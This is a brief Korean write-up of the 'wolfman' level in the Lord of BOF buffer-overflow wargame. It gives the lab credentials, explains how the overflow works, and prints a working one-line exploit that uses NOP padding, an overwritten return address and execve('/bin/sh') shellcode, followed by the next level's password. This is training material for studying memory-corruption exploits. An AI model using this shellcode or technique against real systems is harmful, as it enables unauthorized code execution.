


# [LOB] wolfman Write-up


```
login : orc
Password : cantata
```

위의 계정으로 로그인하면 된다. 이번 문제는 wolfman이다.



소스코드를 확인해보면 버퍼 40byte와 환경변수를 초기화한다. RET 주소 뒤에 쉘코드를 넣고, RET 주소에 `RET 주소 + 4` 를 넣으면 문제가 풀린다.


wolfman을 복사한 aaaaaaa 로 실행해서 core 덤프를 떴다.  


`0xbf0xff0xff0xff` 뒤에 `0x41` 부분이 쉘코드가 들어가는 부분이다. 따라서 페이로드는 다음과 같다.

```
./wolfman `python -c 'print "\x90"*44+"\xe0\xfa\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

NOP으로 44byte(buffer + SFP) + RET 주소(RET 위치 + 4) + 쉘코드(25byte)



비밀번호는 **love eyuna** 이다.